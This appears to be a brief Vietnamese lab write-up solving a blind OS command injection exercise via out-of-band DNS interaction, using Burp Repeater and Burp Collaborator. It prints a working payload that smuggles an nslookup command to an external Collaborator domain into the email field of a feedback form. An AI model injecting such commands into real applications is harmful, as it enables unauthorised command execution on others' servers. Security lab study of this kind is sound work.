 ![](img/8.png)
### Giải quyết
- Tương tự như lab `Blind OS command injection with output redirection`. Tuy nhiên phòng thí nghiệm này không thể sử dụng chuyển hướng output mà có thể tương tác với domain bên ngoài, và sử dụng nslookup để làm điều này.
- Thực hiện submit feedback và bắt request chuyển tới Burp Repeater.
- Sử dụng Burp Collaborator client tạo 1 domain sử dụng cho command nslookup
- Payload: `email=aaaa%40gmail.com;nslookup+gzj6k6jhhftwyxy7ag01cq9r6ica0z.burpcollaborator.net;#&subject=...` 
![](img/9.png)
###### Solved!